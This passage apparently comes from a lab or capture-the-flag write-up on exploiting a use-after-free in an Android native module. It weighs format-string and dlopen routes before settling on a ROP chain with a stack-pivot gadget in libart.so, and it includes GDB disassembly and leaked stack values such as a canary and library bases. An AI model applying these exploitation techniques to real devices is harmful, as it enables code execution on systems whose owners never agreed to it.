Therefore, set `key=<format string>` and `value=address of StringPrintf@plt`.

Testing this reveals that we might be able to use format strings like "%4242x", but not "%4242x%n", because of the implementation of [`vfprintf`](https://cs.android.com/android/platform/superproject/+/android-12.0.0_r31:bionic/libc/stdio/vfprintf.cpp;l=454;bpv=0;bpt=1):
```C
...
case 'n':
    __fortify_fatal("%%n not allowed on Android");
...
```
Also, for the above to work, we would need to adjust the call to `obj + 0x100` like:
```C
char buffer[32] = { 0 };
*(obj + 0x100)(buffer, keyValue);
```
because `StringPrintf` silently assumes that `rdi` is an address to a variable that has to store a result of `24` bytes and `rsi` is the format string. If we did not make the above change, then `StringPrintf` would zero out the first `24` bytes of our format string, thus completely shutting down the attack. Adding to the pile, we do not have any control over addresses that are accessible via direct parameter access. To be precise, we would need to be lucky enough to find any addresses of interest on the stack like e.g. the format string itself.

Another idea could be to call `dlopen` to get a reference to another library that provides more interesting functionality like `system`! The offset of the `.plt` - entry that calls `dlopen` is `0xa096b0`. Thus we can compute the overall virtual address. Unfortunately, this is shut down by the fact that `dlopen` returns a random `8` - byte value that is a key into a dictionary, whose values are the actual addresses of `soinfo` - structures, which again contain the base addresses. So it is pretty unlikely to get this right, the best we could do here is either guessing or trying to leak the dictionary via a global variable.


### Finally: the solution

Another approach is to try to exploit this UAF vulnerability via a ROP - chain. This is a very destructive approach, but lets see through this:
1. Find a gadget that, right before the call of our `obj + 0x100` function, modifies the stack in such a way that it will return to `keyValue`.
2. Put ROP - chain into `keyValue`. We may use at most `256 // 8 = 32` qwords. This might be sufficient to leak a `libc.so` address into a global variable in `libart.so`. It will turn out that this even suffices to get arbitrary, limited - length command execution.
3. Finally restore the old `rsp` and `rbp`. This would be necessary for a stealthy approach. Restoring `rsp` is only really important for calling `system`, because if `rsp` points into `keyValue`, which is located on the heap, `system` will allocate alot of memory from the heap as if it was a stack, therefore going out-of-bounds fast.

So, the gadget of choice is located at `0x39509a` and is of the form:
```
gef➤  x/10i 0x730c03400000 + 0x39509a
    0x730c0379509a <art_quick_do_long_jump+106>:	pop    rdi
    0x730c0379509b <art_quick_do_long_jump+107>:	pop    rsi
    0x730c0379509c <art_quick_do_long_jump+108>:	pop    rbp
    0x730c0379509d <art_quick_do_long_jump+109>:	add    rsp,0x8
    0x730c037950a1 <art_quick_do_long_jump+113>:	pop    rbx
    0x730c037950a2 <art_quick_do_long_jump+114>:	pop    rdx
    0x730c037950a3 <art_quick_do_long_jump+115>:	pop    rcx
    0x730c037950a4 <art_quick_do_long_jump+116>:	pop    rax
    0x730c037950a5 <art_quick_do_long_jump+117>:	pop    rsp
    0x730c037950a6 <art_quick_do_long_jump+118>:	ret
```


[0]: 0x730b9b7a371e     --|
[1]: 0x730b9b7a372a       | --> from `.rodata`, thus 0x730b9b7a371e - 0x71e = libUseAfterFreeWriteModule.so
[2]: 0x730b9b7a3710       |
[3]: 0x730b9b7a3735     --|
[4]: 0x730b993ba990     --> stack address: array of example strings
[5]: 0x2147eb93990de82b --> 8 byte canary
[6]: 0x730b993ba8c0     --> stack address: stored `rbp`
[7]: 0x730c0379ffac     --> `art_quick_generic_jni_trampoline+220`, thus 0x730c0379fed0 = `art_quick_generic_jni_trampoline` and `libart.so = 0x730c03400000`
[0]: 0x730b9d3c874e     <-- ptr: "amazing_key"
[1]: 0x730b9d3c875a     <-- ptr: "secret_key"
[2]: 0x730b9d3c8740     <-- ptr: "topsecret_key"
[3]: 0x730b9d3c8765     <-- ptr: "a_very_very_long_key_with_fancy_features_:D"
[4]: 0x730b9afdf9a0     <-- stack address: most likely examples
[5]: 0x2147eb93990de82b <-- looks more like a canary
[6]: 0x730b9afdf8d0     <-- stack address: stored rbp
[7]: 0x730c0379ffac     <-- return address